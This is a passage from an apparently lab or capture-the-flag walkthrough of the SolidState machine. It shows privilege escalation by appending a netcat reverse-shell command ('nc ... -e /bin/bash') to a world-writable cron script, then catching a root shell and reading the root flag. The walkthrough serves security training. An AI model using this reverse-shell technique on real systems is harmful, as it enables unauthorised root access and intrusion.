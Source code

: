 ```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 Jun 18  2017 ..
drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```

## Privilege Escalation
### Cron Job

We add the following instruction to the end of the **tmp.py** file, when the cron job executes the script, it will try to connect to my attacking machine, giving us a root shell.

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ echo "os.system('nc 192.168.179.1 1337 -e /bin/bash')" >> tmp.py
```

We set up a netcat listener on port 1337, wait a moment and we have a root shell.

```bash
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.185] 40466
script -qc /bin/bash /dev/null
root@solidstate:~# ls
ls
root.txt
root@solidstate:~# cat root.txt
cat root.txt
b4c9723a28899b1c45db281d99cc87c9
root@solidstate:~#
```

